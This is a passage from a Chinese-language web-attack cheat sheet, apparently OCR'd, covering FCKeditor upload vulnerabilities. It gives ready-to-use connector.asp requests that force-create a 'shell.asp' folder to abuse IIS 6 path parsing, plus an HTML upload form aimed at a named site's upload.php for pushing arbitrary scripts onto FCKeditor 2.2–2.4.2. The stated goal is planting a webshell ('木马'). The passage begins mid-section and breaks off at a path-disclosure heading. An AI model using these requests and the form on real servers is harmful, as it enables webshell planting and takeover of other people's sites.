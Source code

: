 另建议其他上传漏洞中定义TYPE变量时使用File类别来上传文件,根据FCKeditor的代码，其限制最为狭隘。

攻击利用:

```
允许其他任何后缀上传
```

### 利用2003路径解析漏洞上传木马

影响版本: 附录B
脆弱描述：
利用2003系统路径解析漏洞的原理，创建类似`bin.asp`如此一般的目录，再在此目录中上传文件即可被脚本解释器以相应脚本权限执行。
攻击利用:

```
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
```

强制建立shell.asp目录：

```
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
```

or

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
```

Note:[｀Sn4k3!]这个我也不知道咯，有些时候，手动不行，代码就是能成功，囧。

### FCKeditor PHP上传任意文件漏洞

影响版本: FCKeditor 2.2 <= FCKeditor 2.4.2
脆弱描述：
FCKeditor在处理文件上传时存在输入验证错误，远程攻击可以利用此漏洞上传任意文件。
在通过editor/filemanager/upload/php/upload.php上传文件时攻击者可以通过为Type参数定义无效的值导致上传任意脚本。
成功攻击要求config.php配置文件中启用文件上传，而默认是禁用的。攻击利用: (请修改action字段为指定网址)：

```
<form id="frmUpload" enctype="multipart/form-data"
action="http://navisec.it/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>
<input type="file" name="NewFile" size="50"><br>
<input id="btnUpload" type="submit" value="Upload">
</form>
```

Note:如想尝试v2.2版漏洞，则修改Type=任意值 即可，但注意，如果换回使用Media则必须大写首字母M,否则LINUX下，FCKeditor会对文件目录进行文件名校验，不会上传成功的。

### FCKeditor 暴路径漏洞

影响版本：aspx版FCKeditor
攻击利用：
